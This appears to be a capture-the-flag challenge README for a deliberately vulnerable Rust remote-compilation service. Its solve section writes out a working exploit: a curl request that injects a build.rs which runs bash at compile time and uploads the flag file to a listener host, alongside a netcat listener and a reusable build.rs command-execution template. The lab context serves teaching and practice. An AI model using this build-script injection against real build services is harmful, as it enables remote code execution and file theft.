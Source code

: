# Build And Drustroy

## Desc

- I love rust because it's secure and fast. So I want people to do MOAR rust.
- That's why I made a microservice to allow fast and easy remote code compilation.
- Send my your code, I'll compile it, and I know for sure I'm safe!

```bash
curl -sS -X POST -H 'Content-Type: application/json' http://127.0.0.1:3000/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }"}' --output binary
file binary # binary: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, ...
```

## Goal

- Abuse build.rs to inject a compile-time command executions
- Spawn a shell
- Read flag

## Doc

- <https://www.rust-lang.org/learn>
- <https://doc.rust-lang.org/cargo/reference/build-scripts.html>

## Setup & Solve

```bash
# Setup
docker compose up
# Solve Listener
ip -br a ; nc -lnvp 8000
# Solve Exploit
curl -sS -X POST -H 'Content-Type: application/json' http://127.0.0.1:3000/remote-build -d '{"src/main.rs":"fn main() { println!(\"Hello, world!\"); }", "build.rs": "fn main() {use std::process::Command;let output = Command::new(\"/bin/bash\").arg(\"-c\").arg(\"curl --upload-file /flag/randomflaglolilolbigbisous.txt 172.17.0.1:8000\").output().expect(\"failed to execute process\");}"}' --output binary
```

## Clean build.rs file for RCE

```rs
fn main() {
    println!("Henlo build 🧙");
    use std::process::Command;
    let output = Command::new("/bin/bash")
                         .arg("-c")
                         .arg("date > /tmp/rce")
                         .output()
                         .expect("failed to execute process");

    println!("status: {}", output.status);
    println!("stdout: {}", String::from_utf8_lossy(&output.stdout));
    println!("stderr: {}", String::from_utf8_lossy(&output.stderr));
}
```
